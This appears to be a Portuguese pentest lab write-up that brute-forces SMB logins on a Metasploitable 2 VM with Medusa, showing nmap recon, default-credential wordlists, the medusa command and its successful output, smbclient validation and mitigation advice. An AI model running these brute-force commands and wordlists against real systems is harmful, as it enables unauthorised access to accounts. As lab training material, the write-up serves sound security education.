


## Teste de Força Bruta – SMB (Metasploitable 2)

### Ambiente
- **Atacante:** Kali Linux — IP `192.168.56.101`
- **Alvo:** Metasploitable 2 — IP `192.168.56.102`
- **Ferramenta:** Medusa
- **Rede:** VirtualBox Host-only (ambiente isolado, sem acesso à internet)

### 1. Reconhecimento

Antes de atacar, foi feito um scan de portas com o Nmap para identificar os serviços ativos no alvo:

```bash
nmap 192.168.56.102
```

**Resultado (trecho relevante):**

```
PORT     STATE SERVICE
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
```

As portas `139` e `445` confirmam que o serviço **SMB** está ativo e acessível no alvo.

> O scan também revelou diversos outros serviços abertos (FTP, SSH, Telnet, MySQL, etc.), característicos da Metasploitable 2 — uma VM propositalmente vulnerável usada para fins didáticos de pentest.

### 2. Preparação das wordlists

Foram criadas duas listas customizadas, combinando credenciais padrão conhecidas de laboratórios de pentest (como `msfadmin`, login padrão da própria Metasploitable) com senhas comuns:

**usuários (`users.txt`):**
```
user
msfadmin
admin
root
administrator
dvwa
root
test
```

**senhas (`senhas_custom.txt`):**
```
msfadmin
admin
password
123456
toor
root
dvwa
user
test
letmein
changeme
default
```

### 3. Execução do ataque

Comando utilizado:

```bash
medusa -h 192.168.56.102 -U users.txt -P senhas_custom.txt -M smbnt | grep "SUCCESS"
```

**Resultado:**

```
2026-11-25 17:21:18 ACCOUNT FOUND: [smbnt] Host: 192.168.56.102 User: user Password: user [SUCCESS (ADMIN$ - Access Allowed)]
2026-11-25 17:21:18 ACCOUNT FOUND: [smbnt] Host: 192.168.56.102 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]
```



- **Credenciais encontradas:**
  - `user` / `user`
  - `msfadmin` / `msfadmin`
- **Tempo total do ataque:** ~30 minutos
- **Acesso:** `ADMIN$ - Access Allowed` em ambos os casos, indicando acesso administrativo ao compartilhamento.

### 4. Validação do acesso

Para confirmar que as credenciais encontradas eram válidas, o acesso foi testado manualmente com `smbclient`:

```bash
smbclient -L //192.168.56.102 -U msfadmin
```



O comando foi repetido também com a conta `user`, com o mesmo resultado positivo.

**Compartilhamentos encontrados:**

| Sharename | Tipo | Comentário |
|---|---|---|
| print$ | Disk | Printer Drivers |
| tmp | Disk | oh noes! |
| opt | Disk | — |
| IPC$ | IPC | IPC Service (Samba 3.0.20-Debian) |
| ADMIN$ | IPC | IPC Service (Samba 3.0.20-Debian) |
| msfadmin / user | Disk | Home Directories |

Vale destacar que cada conta comprometida possui seu próprio diretório pessoal exposto via SMB (`msfadmin` e `user`), além do acesso administrativo ao `ADMIN$` confirmado anteriormente pelo Medusa.

O acesso foi confirmado com sucesso, validando que a vulnerabilidade de credenciais fracas/padrão realmente permite comprometimento do serviço SMB.

### 5. Análise e mitigação

A causa raiz do sucesso do ataque foi o uso de **credenciais padrão e fracas** (`msfadmin`/`msfadmin`, `user`/`user`) sem nenhuma política de senha ou bloqueio de tentativas — algo comum em ambientes de laboratório como a Metasploitable, mas que em produção representa um risco crítico.

**Medidas de mitigação recomendadas:**
- Eliminar credenciais padrão/fábrica antes de colocar qualquer sistema em produção
- Implementar política de senhas fortes (tamanho mínimo, complexidade)
- Configurar bloqueio de conta após N tentativas falhas (account lockout)
- Desabilitar SMBv1 quando possível (protocolo legado e vulnerável)
- Monitorar e alertar sobre tentativas de autenticação repetidas (ex: fail2ban, SIEM)
- Restringir acesso SMB por firewall/segmentação de rede, limitando quem pode alcançar as portas 139/445
